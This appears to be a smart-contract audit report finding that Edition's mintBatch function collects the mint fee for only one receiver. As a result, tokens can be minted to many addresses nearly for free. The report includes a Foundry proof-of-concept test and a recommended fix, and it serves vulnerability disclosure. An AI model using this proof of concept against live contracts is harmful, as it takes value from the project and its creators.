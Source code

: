 Beautiful Butter Parrot

high

# Mishandled ether in `Editions::mintBatch` allows tokens to be minted for free

## Summary
The `Editions::mintBatch` function that takes an array of addresses, or `receivers_`, allows users to mint many tokens for free. The issue arises because of improper fee handling based on the number of recipients.
 
## Vulnerability Detail
The `mintBatch` function is designed to mint a specified number of tokens `amount_` to multiple recipients `receivers_` listed in an array. However, the function fails to validate whether the user has sent the appropriate minting fee proportional to the number of recipients. This oversight allows a user to exploit the system by minting the `amount_` of tokens to each address in the `receivers_` array while only paying the minting fee for a single receiver.

For example, I call `mintBatch` with a `receivers_` array of 4 addresses and `amount_` = 1. The cost to mint all tokens should be mintFee * receivers_.length = 4. However I only need to send the mintFee to mint 1 token to 1 receiver to mint all 4 tokens to the 4 different receivers. To see this played out in code copy and paste the following test to Edition.t.sol and run with forge test --mt test_mintBatchReceiverArray -vvvv 
```solidity
function test_mintBatchReceiverArray() public {
        address hacker = makeAddr("hacker");
        vm.deal(hacker, 1 ether);

        uint256 addressCount = 1;

        address[] memory recievers = new address[](4);
        for(uint256 i = 0; i < 4; i++) {
            recievers[i] = vm.addr(++addressCount);
        }

        uint256 amount = 0.0106 ether; //should cost this much to mint 4 tokens

        vm.startPrank(hacker);
        edition.mintBatch{value: amount}(recievers, 1, 1, new bytes(0));

        console.log("total supply: ", edition.totalSupply(1));

        assertEq(edition.balanceOf(recievers[0], 1), 1);
        assertEq(edition.balanceOf(recievers[1], 1), 1);
        assertEq(edition.balanceOf(recievers[2], 1), 1);
        assertEq(edition.balanceOf(recievers[3], 1), 1);
        assertEq(address(1).balance, 0.01 ether);
        assertEq(address(0xc0ffee).balance, 0.0006 ether);

    }
```

## Impact
Tokens can be minted for free

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304-#L313

## Tool used
Manual Review
Foundry

## Recommendation
Validate that the user is sending the proper amount of ether to mint the total amount of tokens they wish to. Do this either in the `Editions::mintBatch` function or within the `FeeManager::_collectMintFee` 
